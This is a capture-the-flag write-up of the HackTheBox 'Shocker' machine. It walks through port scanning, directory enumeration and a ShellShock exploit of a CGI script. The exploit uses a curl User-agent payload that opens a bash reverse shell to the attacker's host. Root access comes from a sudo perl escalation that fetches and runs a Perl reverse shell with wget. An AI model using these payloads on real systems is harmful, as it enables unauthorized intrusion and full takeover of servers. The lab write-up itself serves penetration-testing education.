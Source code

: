 # Recon

All-tcp scan:
```bash
nmap -p- -oA scans/nmap-alltcp 10.10.10.56

PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

Detailed scan:
```bash
nmap -p 2222,80 -sVC -oA scans/nmap-tcpdetail 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesnt have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directory enum:
```
feroxbuster -u http://10.10.10.56 -f -n
403      GET       11l       32w      294c http://10.10.10.56/cgi-bin/
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
403      GET       11l       32w      292c http://10.10.10.56/icons/
403      GET       11l       32w      300c http://10.10.10.56/server-status/
```

Subdomain scan (even with detailed lists) didnt reveal any new information.


# Shell as shelly

As we can see above, there is a cgi-bin directory present on the server.
From the name of the machine and the presence of this directory,
we can guess, that the machine is vulnerable to ShellShock exploit
via CGI.

First, we will enumerate scripts inside this directory:
```
feroxbuster -u http://10.10.10.56/cgi-bin -f -n -x sh ps1 pl

200      GET        7l       17w      118c http://10.10.10.56/cgi-bin/user.sh
200      GET      234l      773w    66161c http://10.10.10.56/bug.jpg
200      GET        9l       13w      137c http://10.10.10.56/
```

We have found a script (user.sh)! We will now test if it's vulnerable:
```bash
curl -H "User-agent: () { :;}; echo; echo vulnerable" http://shocker.htb/cgi-bin/user.sh
vulnerable

Content-Type: text/plain

Just an uptime test script

 08:26:40 up  1:50,  0 users,  load average: 0.00, 0.04, 0.00
```

It indeed is, as it printed our string (executed the code) along with it's usual 
content.

We will use it to gain revshell:

```bash
nc -lvnp 9001
```

```bash
curl -H "User-agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/10.10.14.13/9001 0>&1" \
    http://shocker.htb/cgi-bin/user.sh
```

When we receive reverse connection, we can read the user flag:

```
290**************************bfd
```

# Shell as root

This box offers really easy privilege escalation. We run:

```bash
sudo -l 

Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Output tells us, that user can run perl as root. That's excellent!
We get PentestMonkey's revshell from [https://www.revshells.com/](https://www.revshells.com/), 
start our listener, and run it.

First, we will copy it to our target machine, via simple python server.

Attack machine:
```bash
sudo python -m http.server 80
```

Target Machine:
```bash
wget 10.10.14.13/shell.pl

wget 10.10.14.13/shell.pl
--2023-08-18 08:32:38--  http://10.10.14.13/shell.pl
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
```

After that, we execute it.

Attack machine:
```bash
nc -lvnp 9001
```

Target machine:
```bash
sudo /usr/bin/perl shell.pl
```

With that, we should get reverse connection as root 
and be able read root flag:

```
root@Shocker:/# cd /root
cd /root
root@Shocker:~# ls
ls
root.txt
root@Shocker:~# cat root.txt
cat root.txt
012**************************1a0
```
